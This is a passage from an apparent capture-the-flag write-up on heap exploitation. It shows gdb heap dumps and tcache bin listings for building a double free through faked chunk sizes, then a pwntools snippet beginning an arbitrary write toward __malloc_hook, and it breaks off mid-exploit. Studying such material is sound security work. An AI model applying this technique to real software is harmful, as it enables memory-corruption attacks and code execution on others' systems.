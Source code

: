 Earlier, when we created the unsorted `a` in the 1st iteration, this is what the heap looks like after freeing all the
chunks:

```
x/50gx 0x194d790
┌───────────────────────────────┐ 
│               │         0x421 │ <- fake 0x420 chunk (a), freed
│ libc leak     │               │
│               │          0x41 │ <- fake 0x40 chunk  (b), freed
│ fd            │               │ fd points to ──┐
│               │          0x41 │<-──────────────┘    (c), freed
│               │               │
...
```

After we allocate the 2 0x0 (size 0x21) chunks and `c`, but before we free, this is what the heap looks like:

```
x/50gx 0x194d790
┌───────────────────────────────┐
│               │          0x21 │ <- a
│ libc leak     │               │
│               │          0x21 │ <- b (initially 0x41)
│               │               │
│               │          0x21 │ <- c (initially 0x41)
│               │               │
│               │         0x3c1 │ <- rest of unsorted chunk
│               │               │
...
```

The tcache still contains the 0x41 chunks that we freed earlier. Once `c` and `b` are freed, the 0x40 and 0x20 tcache
will contain the same chunks, giving us our double free!

```
tcachebins
0x20 [  3]: 0x194d7a0 —▸ 0x194d7c0 —▸ 0x194d7e0 ◂— 0
0x40 [  2]: 0x194d7c0 —▸ 0x194d7e0 ◂— 0
```

## Arbitrary write

We will need 3 more mallocs to write to our `__malloc_hook`. The 1st malloc will clear the first chunk in 0x20 that
isn't our double free. This chunk still needs to be freed later, so we still need to fake the size (just fake it to
some other tcache that we're not using).

```python
p.sendlineafter(b"length of meme:", str(0x10).encode())
payload = flat(
    0x0, 0x61
)
p.sendlineafter(b"meme:", payload)
```
